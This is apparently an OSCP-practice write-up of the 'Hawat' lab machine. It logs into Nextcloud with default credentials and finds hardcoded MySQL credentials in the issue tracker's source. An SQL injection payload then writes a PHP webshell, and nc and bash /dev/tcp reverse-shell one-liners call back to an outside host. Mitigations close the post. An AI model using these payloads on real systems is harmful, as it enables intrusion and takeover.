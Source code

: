 ```yaml
---
title: Hawat
date: 2025-06-23
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough, Linux, NextCloud, weak-creds, SQLi, SQL-writing-files] 
image: pg-logo.png
media_subpath: /assets/img/posts/2025-06-23-hawat/
---
```


## Introduction

In this walkthrough, I found a Nextcloud instance hosted as one of the web applications. I was able to log in using default credentials (`admin:admin`). Within the dashboard, I discovered a ZIP file containing the source code of another application—an issue tracker. Reviewing the code and configuration, I found MySQL credentials and observed how the web application communicated with the database. I exploited the vulnerable query logic to inject a payload that wrote a webshell to the web root. Accessing this shell through the browser, I upgraded it to a reverse shell, which immediately provided root access.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

![image.png](image%201.png)

## Services

### Port 22

![image.png](image%202.png)

## Web

### Port 17445

Version - Apache Tomcat (language: en)

![image.png](image%203.png)

```bash
**feroxbuster -u http://$IP:17445/ -w /usr/share/wordlists/dirb/common.txt -C 403,404,400**
```

![image.png](image%204.png)

After registering and logging into app I see 2 other users:

![image.png](image%205.png)

### Port 30455

![image.png](image%206.png)

![image.png](image%207.png)

![image.png](image%208.png)

### Port 50080

![image.png](image%209.png)

```bash
**feroxbuster -u http://$IP/ -w /usr/share/wordlists/dirb/common.txt -C 403,404,400**
```

![image.png](image%2010.png)

```bash
gobuster dir -u http://$IP:8080/ -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 42 -b 400,403,404
```

![image.png](image%2011.png)

**API Enumeration**

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u http://$IP:8080/FUZZ/
```

```bash
gobuster dir -u http://192.168.50.16:5002 -w /usr/share/wordlists/dirb/big.txt -p pattern
```

**pattern file**

```
{GOBUSTER}/v1
{GOBUSTER}/v2
```

**Vhost Fuzzing**

```bash
ffuf -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt:FUZZ -u http://academy.htb:<port>/ -H 'Host: FUZZ.academy.htb'
```

## Exploitation

Navigating to `cloud` directory I see login panel for `Nextcloud` app.

![image.png](image%2012.png)

Using credentials `admin`:`admin` I was able to login.

Among files I just found `issuetracker.zip` interesting.

Grepping for `pass` inside `src` directory I see some password in file:

```bash
grep -r pass
```

![image.png](image%2013.png)

```java
@GetMapping("/issue/checkByPriority")
	public String checkByPriority(@RequestParam("priority") String priority, Model model) {
		// 
		// Custom code, need to integrate to the JPA
		//
	    Properties connectionProps = new Properties();
	    connectionProps.put("user", "issue_user");
	    connectionProps.put("password", "ManagementInsideOld797");
        try {
			conn = DriverManager.getConnection("jdbc:mysql://localhost:3306/issue_tracker",connectionProps);
		    String query = "SELECT message FROM issue WHERE priority='"+priority+"'";
            System.out.println(query);
		    Statement stmt = conn.createStatement();
		    stmt.executeQuery(query);

        } catch (SQLException e1) {
			// TODO Auto-generated catch block
			e1.printStackTrace();
		}
		
        // TODO: Return the list of the issues with the correct priority
		List<Issue> issues = service.GetAll();
		model.addAttribute("issuesList", issues);
		return "issue_index";
        
	}
	
```

I see that it connects using these credentials to local `MySQL` server, what we can do is to write some webshell in a directory where we can access it. Among valid priorities I see `Normal`. As we know `phpinfo.php` we can see the `DOCUMENT_ROOT`:

![image.png](image%2014.png)

That means if I write a web shell it will be under `30445` port.

```java
Normal' UNION SELECT "<?php echo shell_exec($_GET['cmd']);?>" INTO OUTFILE '/srv/http/webshell.php'-- -
```

URL-encoding in Burp didn’t work properly that’s why I tried with different websites and found this working:

[url-encode-decode](https://www.url-encode-decode.com/)

As you can see it returned messages and and also executed command.

![image.png](image%2015.png)

```bash
rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.226 50080 >/tmp/f #didn't work
bash -i >& /dev/tcp/192.168.45.226/50080 0>&1 #burp-url-encoded worked
```

![image.png](image%2016.png)

![image.png](image%2017.png)

## Credentials

```bash
issue_user:ManagementInsideOld797 #pass for MySQL
```

## Mitigation

- Change or disable default credentials immediately after installation.
- Avoid exposing sensitive files such as source code or backups to authenticated or unauthenticated users.
- Sanitize all database inputs to prevent injection attacks; use parameterized queries.
- Run web applications as low-privileged users, not as `root`.
- Monitor file write operations under the web root and restrict write permissions to essential services only.
